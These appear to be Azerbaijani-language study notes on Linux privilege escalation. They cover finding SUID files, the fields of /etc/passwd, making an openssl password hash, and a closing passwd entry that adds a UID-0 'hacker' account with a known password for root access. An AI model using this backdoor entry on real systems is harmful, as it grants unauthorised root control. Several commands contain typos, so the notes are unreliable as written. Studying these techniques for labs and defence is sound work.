 ## fayl sistemində SUID/GUID fayllarını axtarmaq üçün

#find / -perm -u=s -type f 2>/dev/nul

1. find - "tap" əmrini işə salır

2. / - Bütün fayl sistemini axtarır

3. -perm - xüsusi icazələri olan faylları axtarır

4. -u=s - İstənilən icazə bit rejimi fayl üçün təyin edilmişdir. Bu formada simvolik rejimlər qəbul edilir

5. -tip f - Yalnız faylları axtarın

6. 2>/dev/null - Səhvləri aradan qaldırır


## /etc/passwd-haqqinda qeydler.

etc/passwd- dan cox rahat sekilde root`a qalxmaq olar ona gore burada diqqetli olmaq lazimdir

/etc/passwd faylı giriş zamanı tələb olunan vacib məlumatları saxlayır. Başqa sözlə, istifadəçi hesabı məlumatlarını saxlayır

1. O, hər bir hesab üçün : user ID, group ID, home directory, shell, and more haqqda melumat verir

2.Aşağıdakı kimi yeddi sahənin cəmi. Ümumiyyətlə, /etc/passwd fayl girişi aşağıdakı kimi görünür:

    test:x:0:0:root:/root:/bin/bash

iki nöqtə ilə bölünür (:)

1.USer name: İstifadəçi daxil olduqda istifadə olunur. Uzunluğu 1 ilə 32 simvol arasında olmalıdır.

2.Password : X simvolu şifrələnmiş parolun /etc/shadow faylında saxlandığını göstərir. Nəzərə alın ki, CLI-də yazılan parolun hashini hesablamaq və ya parolun hashini /etc/shadow faylında saxlamaq/yeniləmək üçün passwd əmrindən istifadə etməlisiniz, bu halda parol hashı "" kimi saxlanılır. x".

3. User ID ( UID ) : Hər bir istifadəçiyə istifadəçi ID (UID) təyin edilməlidir. UID 0 (sıfır) kök üçün, UID 1-99 isə əvvəlcədən təyin edilmiş digər hesablar üçün qorunur. Əlavə UID 100-999 inzibati və sistem hesabları/qrupları üçün sistem tərəfindən qorunur.
4. Group ID (GID) : Əsas qrup ID (/etc/group faylında saxlanılır)

5. User ID Info : Şərh sahəsi. Bu, istifadəçinin tam adı, telefon nömrəsi və s. kimi istifadəçilər haqqında əlavə məlumat əlavə etməyə imkan verir. Bu sahə barmaq əmri ilə istifadə olunur.

6. Home directory : İstifadəçi daxil olduqda onun daxil olacağı qovluğun mütləq yolu. Bu kataloq mövcud deyilsə, istifadəçilərin kataloqu / olur.

7. Command/shell : Əmr və ya qabığın mütləq yolu (/bin/bash). Tipik olaraq, bu bir qabıqdır. Nəzərə alın ki, bunun bir qabıq olması lazım deyil.


##  parol hash yaratmaq

# openssl passwd -1 -salt [salt] [password]

burada: ilk once opsenssl passwd -1 salt (istifadeci adi) +enter 
daha sonra qoymaq istediyimiz parolu qoyuruq

getend group  root -komandi ile  sisteminizde tanımlanmış tüm grupları ve ilgili bilgileri görüntüleyecektir. (root/root)
root:x:0:0:root:/root:/bin/bash  (burada 0:0 )ancaq roota aid olur diger istifadeciler 1000 1000 den baslayir


## openssl passwd hacker -1 salt hacker pass123
hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0:root:/root:/bin/bash
parol:pass123

at masina cix(bunu ucun nano /etc/passwd)


